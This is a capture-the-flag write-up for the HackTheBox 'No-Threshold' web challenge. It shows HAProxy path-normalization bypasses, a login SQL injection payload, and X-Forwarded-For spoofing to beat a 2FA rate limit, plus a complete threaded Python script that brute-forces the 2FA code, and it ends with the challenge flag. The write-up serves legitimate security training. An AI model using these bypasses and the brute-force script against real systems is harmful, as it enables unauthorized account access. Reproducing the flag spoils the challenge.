 ```yaml
---
title: "No-Threshold - HackTheBox"
description: "https://app.hackthebox.com/challenges/No-Threshold"
summary: "Hack The Box Web Challenge No-Threshold"
date: 2024-09-01
draft: true
tags: ["HackTheBox", "CTF", "Web", "SQLi"]
---
```


------------------------

### Challenge Description

Prepare for the finest magic products out there. However, please be aware that we've implemented a specialized protective spell within our web application to guard against any black magic aimed at our web shop.🔮🎩

### Source Code Review

In the `haproxy.cfg` file, we notice few things.

#### Bypass blocked access to login

```cfg
# External users should be blocked from accessing routes under maintenance.
    http-request deny if { path_beg /auth/login }
```

Access to the path that starts with `/auth/login` is blocked. This can be easily bypassed with mutations like `//auth/login` or `/xx/../auth/login`.

URLs are often normalized by web servers, so both of them will resolve to `/auth/login`.

#### Bypass blocked access to verify-2fa

```cfg
    # Parse the X-Forwarded-For header value if it exists. If it doesn't exist, add the client's IP address to the X-Forwarded-For header.
    http-request add-header X-Forwarded-For %[src] if !{ req.hdr(X-Forwarded-For) -m found }

    # Apply rate limit on the /auth/verify-2fa route.
    acl is_auth_verify_2fa path_beg,url_dec /auth/verify-2fa

    # Checks for valid IPv4 address in X-Forwarded-For header and denies request if malformed IPv4 is found. (Application accepts IP addresses in the range from 0.0.0.0 to 255.255.255.255.)
    acl valid_ipv4 req.hdr(X-Forwarded-For) -m reg ^([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])$

    http-request deny deny_status 400 if is_auth_verify_2fa !valid_ipv4

    # Crate a stick-table to track the number of requests from a single IP address. (1min expire)
    stick-table type ip size 100k expire 60s store http_req_rate(60s)

    # Deny users that make more than 20 requests in a small timeframe.
    http-request track-sc0 hdr(X-Forwarded-For) if is_auth_verify_2fa
    http-request deny deny_status 429 if is_auth_verify_2fa { sc_http_req_rate(0) gt 20 }

    # External users should be blocked from accessing routes under maintenance.
    http-request deny if { path_beg /auth/login }
```

This will keep track of the number of requests made to the `/auth/verify-2fa` endpoint from the IP based on the `X-Forwarded-For` header. It will deny requests to `/auth/verify-2fa` with a 429 status if the request rate exceeds 20 requests per minute per IP.

This can also be easily bypassed by using path mutations. or we can use `X-Forwarded-For` to use multiple IPs. 20 requests per IP, so we will need 500 IPs to bruteforce a 4-digit code.

#### SQL injection in login

In `login.py` we notice that username AND password are directly appended to the SQLite query. That's right, we have SQL injection here!

```python
user = query_db(
                f"SELECT username, password FROM users WHERE username = '{username}' AND password = '{password}'",
                one=True,
            )
```
If we successfully login, it will set a 4-digit 2FA code.
```python
            set_2fa_code(4)
```

```python
def set_2fa_code(d):
    uwsgi.cache_del("2fa-code")
    uwsgi.cache_set(
        "2fa-code", "".join(random.choices(string.digits, k=d)), 300 # valid for 5 min
    )
```

### Get The Flag

If we successfully login and verify the 2FA, then it will redirect to `/dashboard` and return the flag.
Simple enough, let's try it.

To login successfully we can use simple payload like `' OR 1=1 OR 'x'='x` in the username field.

![Login via SQLi](files/sqli-login.png#center)

Now send it to the intruder and bruteforce a 4-digit code for the `//auth/verify-2fa` endpoint.

![Intruder 2fa result](files/intruder-2fa-bruteforce.png#center)

![Flag at Dashboard endpoint](files/dashboard-endpoint.png#center)

Alternatively, we can bruteforce 2FA code through multiple IP addresses via the `X-Forwarded-For` header.

Below Python code automates that process:

```python
import os
import re
import sys
import threading
import requests


n1, n2, n3, n4 = 1, 0, 0, 0
ips = dict()
url = "http://94.237.59.199:48823"


def get_ip(x):
    global n1, n2, n3, n4, url
    for x2 in range(x, x + 10):
        if n4 < 255:
            n4 += 1
        elif n3 < 255:
            n3 += 1
        elif n2 < 255:
            n2 += 1
        elif n1 < 255:
            n1 += 1
        ip = f"{n1}.{n2}.{n3}.{n4}"
        headers = {
            "X-Forwarded-For": ip,
            "Content-Type": "application/x-www-form-urlencoded",
        }
        response = requests.post(
            f"{url}//x/../auth/login",
            data="username='+OR+1263%3d1263+OR+'RzWd'%3d'OrZt&password=cycAEGAv4OapKYasrIa2vuguAnSgwib5",
            headers=headers,
            proxies={"http": "http://127.0.0.1:8080/"},
            allow_redirects=False,
        )
        if "verify-2fa" not in response.text:
            print(response.text)
            sys.exit("no 2fa!!")
        ips[x2] = ip
        pass
    pass


def brute_force(start, end, ip):
    for i in range(start, end):
        headers = {
            "X-Forwarded-For": ip,
            "Content-Type": "application/x-www-form-urlencoded",
        }
        response = requests.post(
            f"{url}/auth/verify-2fa",
            data=f"2fa-code={i:04}",
            headers=headers,
            proxies={"http": "http://127.0.0.1:8080/"},
        )
        if "flag" in response.text:
            print("IP:", ip)
            matches = re.findall(r"HTB\{(.*?)\}", response.text)
            if matches:
                for match in matches:
                    print("Flag Found: HTB{", match, "}", sep="")
            else:
                print(response.text)
            os._exit(0)
        pass


num_threads = 500
total_numbers = 10000
chunk_size = total_numbers // num_threads
threads = []
threads2 = []
for x in range(50):
    t = threading.Thread(target=get_ip, args=(x * 10,))
    threads2.append(t)
    t.start()
    pass
for t in threads2:
    t.join()

print(f"Total ip: {len(ips)}")
for i in range(num_threads):
    start = i * chunk_size
    end = start + chunk_size
    thread = threading.Thread(target=brute_force, args=(start, end, ips[i]))
    threads.append(thread)
    thread.start()

for thread in threads:
    thread.join()

print("Brute force completed.")
```

Code output:

![Python code output](files/python-code-output.png#center)

Flag: `HTB{1_l0v3_h4pr0x1_4cl5_4nd_4ll_1t5_f34tur35}`

Happy Hacking

---
